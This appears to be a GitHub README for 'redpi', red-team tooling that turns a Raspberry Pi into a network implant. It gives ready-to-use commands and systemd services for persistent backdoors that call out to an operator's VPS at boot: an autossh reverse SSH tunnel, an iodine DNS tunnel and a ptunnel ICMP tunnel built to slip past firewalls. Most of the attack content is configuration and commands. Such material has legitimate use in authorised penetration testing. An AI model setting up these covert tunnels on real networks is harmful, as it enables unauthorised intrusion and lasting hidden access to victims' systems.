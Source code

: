 # redpi
red team tools to install into a rpi

## install

```
sudo ./setup.sh
```

## autossh

In order to have a remote connexion to the raspberry:
```bash
ssh-keygen -t rsa -b 4096
ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain -> to copy keys to the remote server
ssh user@domain -> to verify that we do not need password anymore to connect
```

Then create a service that will autossh to your domain at boot time:
```bash
sudo vim /etc/systemd/system/autossh.service

[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=pi
Environment="AUTOSSH_GATETIME 0"
ExecStart=/usr/bin/autossh -N -R 2222:localhost:22 user@domain -p 22 -i ~/.ssh/id_rsa
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

You need to reload the services list:

```bash
sudo systemctl daemon-reload
sudo systemctl enable autossh.service
sudo reboot
```

Then you could connect to your domain, then:
```bash
ssh pi@localhost -p 2222
```

## iodine and backdoor through dns tunneling

Modify your DNS zone as follow:
A record: tunnelhost.DOMAINNAME.com maps to IP
NS record: tunnel.DOMAINNAME.com maps to tunnelhost.DOMAINNAME.com

On the server (VPS):
```bash
sudo iodined -c -f 172.16.0.0/24 -P SuperPassword tunnel.DOMAINNAME.com
```

This command will create a interface (dns0) with IP 172.16.0.0

On the client (raspberry) create the service:
```bash
sudo vim /etc/systemd/system/autoiodine.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/usr/sbin/iodine -I 50 -f -P SuperPassword tunnel.DOMAINNAME.com
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

This service will create an interface (dns1) with ip 172.16.0.1

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoiodine.service
sudo reboot
```

Then you could connect to your domain, then ssh through dns tunnel to the raspberry pi:
```bash
ssh pi@172.16.0.1
```

# ptunnel and backdoor throught icmp tunneling

On the server (VPS):
```bash
sudo ptunnel -c ens3 -x SuperPassword
```

On the client, if not already done with autossh:
```bash
ssh-keygen -t rsa -b 4096
ssh-copy-id ~/.ssh/id_rsa.pub USER@domain -> to copy keys to the remote server
ssh USER@domain -> to verify that we do not need password anymore to connect
```

On the client (raspberry), create a bash script:
```bash
touch /home/pi/autoptunnel.sh
chmod +x home/pi/autoptunnel.sh
vim /home/pi/autoptunnel.sh

#!/bin/bash
/usr/sbin/ptunnel -p IP_SERVER -lp 8000 -da IP_SERVER -dp 22 -x SuperPassword &
sleep 5
ssh -N -R 2222:localhost:22 USER@localhost -p 8000 -i ~/.ssh/id_rsa
# do not take the same 2222 port as the one mentionned into the autossh section of course
```

Then, still on the client, create a service:
```bash
sudo vim /etc/systemd/system/autoptunnel.service


[Unit]
Description="une description du service"
Wants=network-online.target ssh.target
After=network-online.target ssh.target

[Service]
#Type=simple
User=root
ExecStart=/bin/bash /home/pi/autoptunnel.sh
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```

Then reload the service and enable it:
```bash
sudo sytemctl daemon-reload
sudo systemctl enable autoptunnel.service
sudo reboot
```

Then on the server, you can connect to the pi:
```bash
ssh pi@localhost -p 2222
```


